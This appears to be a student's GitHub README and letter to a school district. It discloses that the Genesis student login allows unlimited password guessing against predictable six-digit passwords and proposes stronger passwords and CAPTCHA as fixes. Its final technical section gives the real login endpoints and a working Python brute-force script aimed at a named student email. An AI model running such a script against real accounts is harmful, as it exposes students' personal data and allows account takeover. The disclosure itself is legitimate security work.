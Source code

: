 # Genesis Password Concern [![Rust](https://github.com/Basicprogrammer10/SchoolPasswordCrack/actions/workflows/rust.yml/badge.svg)](https://github.com/Basicprogrammer10/SchoolPasswordCrack/actions/workflows/rust.yml) ![Lines of code](https://img.shields.io/tokei/lines/github/basicprogrammer10/SchoolPasswordCrack?label=Total%20Lines)

## 🧠 Intro

I am writing to express a concern I have with district password security for the students, as well as to offer some possible solutions to fix this problem.

The [Genesis](https://www.genesisedu.com/) login system has a vulnerability that allows many possible passwords to be tried very quickly. This could allow someone to fairly easily guess passwords and gain access to student accounts in a matter of minutes. With access to a student's password, a large amount of personal information is at risk.

## ❓ Why this is a problem

How is this bad? Well with these passwords being used for both Genesis accounts and student Google accounts lots of student's personal information is accessible. This includes the following (in no particular order)

- Full Name
- Birth Date
- Age
- State ID
- School name
- Grade
- Attendance
- Grades
- Classes
- Teacher names
- Report Cards
- Forms
- Calendar Events
- Class Zoom Links
- Class Times
- Student Assignments
- Student Files
- Student Emails (of all students)
- YouTube Watch & Search history
- Google Search History
- Google Keep stuff
- Chrome Bookmarks
- Chrome Saved Passwords
- Chrome autofill form data
- Chrome currently open tabs
- Chrome History
- Google Photos
- Google Tasks
- Any Phones / Mobile devices signed in with school Google
- Device Details of devices signed in to school Google account
- And more

And this is just the information I found with just a few minutes of searching through my account. I hope after reading that you are very concerned about the amount of personal information that is basically public (to anyone who cares enough to put a small amount of effort and time into it). Now not only does anybody who cracks someone else's passwords have access to read the information contained in the categories mentioned above, but they can also edit/modify/send information/emails as someone else.

## ✨ Fixes

Now that this problem is known, it wouldn't be very helpful if I didn't suggest some fixes! So here are two simple options to think about.

### 📀 Option 1

One fix for this problem is to use more secure passwords for accounts. Currently, a large amount (not all) of student passwords appear to be formatted like this ⇒ `30####` where the `#`s are any number. This means that for many student passwords only four digits need to be cracked. This is bad because it lowers the time to crack passwords. I have been able to crack my own password with some relatively simple [code](https://github.com/Basicprogrammer10/SchoolPasswordCrack/blob/master/src/SchoolPasswordCrack.py) in only a few minutes. This means all student passwords could be cracked in a few weeks or less for over 7000 accounts.

I think that at a certain grade (I would say 6th grade) students could learn how to then make their own secure passwords. Secure passwords have 10 characters made up of letters, numbers, and special characters. These passwords should not be able to be seen by teachers or other staff but could be reset if needed. This would be good in terms of security, but it will also teach students the important skill of making secure passwords.

### 💿 Option 2

Another way to fix this problem is by making some modifications to the Genesis login system. This is something that would require working with the Genesis 'team' to fix but would be *ok* if option 1 is not viable.

Currently, Genesis has no rate limit or CAPTCHA. This means that many automated password attempts can be made within very quick succession. For example, the program mentioned above was able to make over 30 requests per second. This allows simple brute force attacks (such as this one) to work. Nowadays fixing this is extremely easy with the use of external services like reCAPTCHA.

### 🌠 Fixes Conclusion

There are of course more options than these two, but I think this is a good start and will hopefully get the district to think more about the security aspect of the services used. Apart, these solutions are ok but if both are used together the school and its students will be made more secure than ever.

## 🛑 Conclusion

Personal information has become an incredibly valuable asset for advertisers, hackers, etc. it is now more important than ever to properly secure it. At the moment I believe the district is **not** doing enough to secure this information, which places large amounts of personal protected student data at risk. I believe that it is the district's responsibility to securely manage student's data on required sites and services (like Google Classroom and Genesis).

By reading this our district is one step closer to better security! As I hope you can see from reading this, I really care about security and want to improve the school's technology for not only myself but all other students. I will also be happy to discuss my thoughts and findings in more detail if It would be helpful.

Sincerely, Connor

## 📅 Technical Details (If you are interested)

Here I will be going over some specific technical details of this vulnerability. View the advanced version's [code](https://github.com/Basicprogrammer10/SchoolPasswordCrack/blob/master/src/SchoolPasswordCrack.py) and see it in action [here](https://asciinema.org/a/408164). This vulnerability can be exploited manually if you have a lot of time but can be sped up immensely with a bit of code.

At its most basic my script just sends a GET request to `https://parents.genesisedu.com/SCHOOL_PAGE/sis/view` to get the `JSESSIONID` cookie assigned by the server. Then it sends POST requests to `https://parents.genesisedu.com/SCHOOL_PAGE/sis/j_security_check` with the form data `{"j_password": <PASSWORD>, "j_username": <EMAIL>}` where `<PASSWORD>` is the password to try (ex: 307652 or 300936) and `<EMAIL>` is the email of the account to crack. I found these details by looking at the site's network traffic when logging into my account.

Below you can see a basic python script that will (slowly) crack a password for the supplied email account. Code comments are included to help show what each line does.

```python
import requests  # Import needed module

url      = 'https://parents.genesisedu.com/SCHOOL_PAGE/sis/j_security_check'  # Define api uri
checkUrl = 'https://parents.genesisedu.com/SCHOOL_PAGE/sis/view?gohome=true'  # Define defult url

# Put student Email here (ex: example@domain.com)
email = ''

assert email != '' # Dont run if email is empty
print(f'[*] Starting Crack for {email}')  # Print email to crack

for i in range(9999):  # Loop through possible passwords
    toTry = f'30{str(i).zfill(4)}'  # Create password to try (ex: 300736)
    print(f'[*] Trying [{toTry}]')  # print what password is being tried
    # Create new session to hold cookies
    ses = requests.Session()
    # Let server Create cookies needed to proform exploit (JSESSIONID)
    ses.get(checkUrl)
    # Get Data to send
    dataToSend = {"j_password": toTry, "j_username": email}
    # Try Password
    data = ses.post(url, data=dataToSend)
    # Check if is correct password
    if not "Account is inactive" in data.text and not "workStudentId" in data.text:
        continue
    print(f'\n[*] Complete: {toTry}')  # if passwords is correct print it
    break  # Exit the loop when the password has been found
```

Watch this script run [here](https://asciinema.org/a/408162). Now this works but is still very slow, however, it does a good job showing what is going on without optimizations. To speed this up multi-threading can be used to attempt more passwords in the same amount of time.
